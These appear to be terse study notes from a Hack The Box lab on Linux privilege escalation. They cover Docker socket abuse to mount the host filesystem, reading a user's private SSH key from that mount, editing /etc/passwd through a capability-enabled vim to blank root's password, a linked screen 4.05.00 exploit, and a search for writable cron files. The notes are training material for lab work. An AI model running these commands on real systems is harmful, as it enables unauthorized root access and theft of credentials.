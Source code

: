 ```
htb-student@container:/app$ /tmp/docker -H unix:///app/docker.sock run --rm -d --privileged -v /:/hostsystem main_app
```
```
htb-student@container:~/app$ /tmp/docker -H unix:///app/docker.sock ps
```
Now, we can log in to the new privileged Docker container with the ID 7ae3bcc818af and navigate to the /hostsystem.
```
htb-student@container:/app$ /tmp/docker -H unix:///app/docker.sock exec -it 7ae3bcc818af /bin/bash
```
```
ssh root@<host IP> -i root.priv
```
## Docker Shared Directories
When we get access to the docker container and enumerate it locally, we might find additional (non-standard) directories on the docker’s filesystem.
```
cd /hostsystem/home/user1
```
```
cat .ssh/id_rsa
```
```
ssh user1@<host IP> -i user1.priv
```
save it to user1.rpiv
# Capabilities
## Enumerating Capabilities
```
cr
```
```
/usr/bin/vim.basic
```
## Exploitation
```
getcap /usr/bin/vim.basic
```
```
/usr/bin/vim.basic /etc/passwd
```
1. delete the x within the root line (which sets the password for root user)
2. no password needed after issuing the su root command
# screen -v
## Screen version 4.05.00
### Privilege Escalation - Screen_Exploit.sh
Navigate to this link for more details
```
https://github.com/YasserREED/screen-v4.5.0-priv-escalate
```
# Certain applications create cron files in the /etc/cron.d directory and may be misconfigured to allow a non-root user to edit them.
```
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```